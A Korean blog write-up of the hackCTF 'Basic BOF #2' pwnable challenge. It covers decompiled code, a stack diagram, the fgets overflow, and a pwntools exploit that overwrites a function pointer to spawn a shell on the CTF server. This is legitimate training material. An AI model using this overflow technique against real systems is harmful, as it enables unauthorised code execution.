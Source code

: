 ```yaml
---
layout: post
title:  "[hackCTF]Basic BOF #2"
date:   2020-02-09
categories: hackCTF/pwnable
tags: [hackCTF, pwnable]
permalink: '/hackCTF/pwnable'
---
```


hackCTF pwnable 2번째 문제

![favicon](https://drive.google.com/uc?id=1EPkDaLZatWWYaPyJ3wVlOrAu-eubvG9c)

## ida - main
```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  char s; // [esp+Ch] [ebp-8Ch]
  void (*v5)(void); // [esp+8Ch] [ebp-Ch]

  v5 = (void (*)(void))sup; // sup 함수의 주소를 v5에 저장
  fgets(&s, 133, stdin); // stdin으로부터 133바이트를 입력 받아 s에 저장
  v5(); // v5가 가리키는 함수 실행
  return 0;
}
```
## ida - sup
```c
int sup()
{
  return puts(&s); // s에 저장된 문자열 출력
}
```

## ida - shell
```c
int shell()
{
  return system("/bin/dash"); // 쉘을 띄울 수 있다!
}
```
<br>

메모리 구조를 정리해보자.<br><br>

***

| sfp |    ebp   |
|:---:|:--------:|
| ... |          |
|  v5 | esp+0x8C |
| ... |          |
|  s  |  esp+0xC |
| ... |          |
| esp |   esp+0  |

***

<br>
목표 : shell 함수 실행 <br>
취약점 : fgets(&s, 133, stdin)<br><br>
∴ v5를 shell의 주소로 덮어 shell()을 실행시키자.<br><br><br>

+) 쉘의 주소는 다음과 같다.  
![0201](https://drive.google.com/uc?id=18Rgv1QIq_0rxABl08a1KZjNBc3GLtHi4)


## exploit.py
```python
#!/usr/bin/python
from pwn import *

p = remote('ctf.j0n9hyun.xyz', 3001)

payload = "A"*(0x8C-0xC) + p32(0x0804849B)

p.sendline(payload)

p.interactive()
```
## 결과  
![0202](https://drive.google.com/uc?id=1GApVrN8IkoCUKXN559Ldluu8rjXOXgtH)
